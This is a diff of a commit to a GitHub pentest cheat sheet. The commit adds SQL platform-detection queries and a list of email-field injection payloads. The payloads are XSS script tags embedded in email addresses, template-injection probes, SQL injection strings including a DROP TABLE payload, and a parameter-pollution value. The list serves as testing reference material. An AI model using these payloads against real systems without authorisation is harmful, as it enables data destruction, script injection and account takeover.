

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Adds email field injection payloads to pentest-cheat-sheet.md

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1817,8 +1817,30 @@ alert(“XSS”);
 ```
 
 ### Detect SQL Database Platform
+
+> credits to @bughuntar
+
 ```sql
 SELECT @@version                                           # MySQL/MSSQL
 SELECT version()                                           # Postgresql
 SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;  # Oracle
 ```
+
+### Email Field Injection Payloads
+```
+# Cross-Site Scripting (XSS)
+test+(<script>alert(1)</script>)@example.com
+test@example(<script>alert(1)</script>).com
+"<script>alert(1)</script>"@example.com
+
+# Template Injection
+"<%= 7 * 7 %>"@example.com
+test+(${{7*7}})@example.com
+
+# SQLi
+"' OR 1=1 -- '"@example.com
+"mail'); DROP TABLE users;--"@example.com
+
+# parameter pollution
+victim&email=attacker@example.com
+```
````
